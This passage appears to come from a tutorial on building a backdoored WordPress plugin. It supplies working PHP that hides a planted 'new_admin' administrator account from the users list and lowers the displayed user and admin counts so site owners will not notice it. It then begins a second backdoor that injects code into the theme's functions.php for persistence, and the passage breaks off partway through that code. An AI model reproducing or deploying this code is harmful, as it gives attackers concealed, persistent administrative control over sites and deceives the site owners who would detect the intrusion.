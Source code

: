 Next we have to hide this **new_admin** user from plain sight. The first block of code will hide it from the users list and the second block will sustract 1 from the users count so, in case there are a few users, it will be very difficult (if not impossible) to notice the extra user.

```php
// Hide user from user list

add_action('pre_user_query','dt_pre_user_query');

function dt_pre_user_query($user_search) {
global $current_user;
$username = $current_user->user_login;

if ($username != 'new_admin') {
    global $wpdb;
    $user_search->query_where = str_replace('WHERE 1=1',
        "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
    }
}

// Sustract 1 from user count

add_filter('views_users', 'dt_list_table_views');

function dt_list_table_views($views){
    $users = count_users();
    $admins_num = $users['avail_roles']['administrator'] - 1;
    $all_num = $users['total_users'] - 1;
    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
    $views['administrator'] = '<a href="users.php?role=administrator" class="' . $class_adm . '">' . translate_user_role('Administrator') . ' <span class="count">(' . $admins_num . ')</span></a>';
    $views['all'] = '<a href="users.php" class="' . $class_all . '">' . __('All') . ' <span class="count">(' . $all_num . ')</span></a>';
    return $views;
}
```

Let's have a look to the plugin once uploaded:

![Plugin before activation](/1.png)

It looks legit to me! Well, if we activate it, we will be able to trigger the backdoor and create the user. But, if the plugin gets deactivated, the **new_admin** user will be visible and if the plugin gets deactivated before we trigger the backdoor, we won't be able to trigger it and create the user. Let's fix this by adding a second backdoor:

The mission of this code is to add the backdoor code into the *functions.php* file of the theme as well. Let's mince the code for better explanation:

```php
// Function to add custom code to functions.php
function add_custom_code_to_functions() {
    $functions_file = get_template_directory() . '/functions.php';

    // Read the contents of functions.php into an array of lines
    $file_lines = file($functions_file);

    // Specify the line number where you want to insert the custom code
    $insert_line_number = 148; // Change this to the desired line number

```
